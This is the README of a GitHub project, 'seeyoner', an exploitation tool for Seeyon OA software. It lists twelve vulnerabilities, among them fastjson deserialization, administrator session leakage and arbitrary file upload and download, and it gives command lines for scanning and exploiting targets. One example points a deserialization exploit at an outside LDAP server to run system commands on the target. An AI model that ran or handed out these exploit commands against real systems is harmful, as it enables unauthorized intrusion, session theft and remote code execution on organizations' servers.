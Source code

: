 ```yaml
---
project: seeyon-exploit
stars: 186
description: 致远OA漏洞检测
url: https://github.com/xfiftyone/seeyon-exploit
---
```


seeyoner
========

致远OA漏洞利用工具

Usage
-----

```
D:\>seeyoner.exe -h
        seeyoner v1.0 by x51
Usage：seeyoner.exe -u http://192.168.1.1:8080/ -vn all -m scan
Options:
  -a string
        run mode ldap args
  -c string
        run mode command args
  -h    print this help info.
  -m string
        mode：scan/run
  -show
        show vuln list.
  -u string
        target url.
  -vn string
        vuln number，[1,2,...]
```

### scan

全漏洞探测：

```
seeyoner.exe -u http://xxx.com -vn all -m scan
```

  
指定漏洞探测： `-vn`指定漏洞编号，可通过`-show`参数查看：

```
D:\>seeyoner.exe -show

漏洞列表：
1、seeyon<8.0_fastjson反序列化
2、thirdpartyController.do管理员session泄露
3、webmail.do任意文件下载（CNVD-2020-62422）
4、ajax.do未授权&任意文件上传
5、getSessionList泄露Session
6、htmlofficeservlet任意文件上传
7、initDataAssess.jsp信息泄露
8、DownExcelBeanServlet信息泄露
9、createMysql.jsp数据库信息泄露
10、test.jsp路径
11、setextno.jsp路径
12、status.jsp路径（状态监控页面）
```

探测seeyon<8.0\_fastjson反序列化漏洞：

```
seeyoner.exe -u http://xxx.com -vn 1 -m scan
```

### run

以Session泄露+zip文件上传解压为例，指定编号为`2`：

```
seeyoner.exe -u http://xxxx.com -vn 2 -m run
```

seeyon<8.0\_fastjson反序列化利用起来比较特殊，也只有该漏洞会用到`-a`和`-c`参数：  
`-a`指定你的LDAP服务地址，`-c`指定需要执行的系统命令

```
seeyoner.exe -u http://xxxx.com -vn 1 -m run -a ldap://x.x.x.x:1389/TomcatBypass/TomcatEcho -c whoami
```
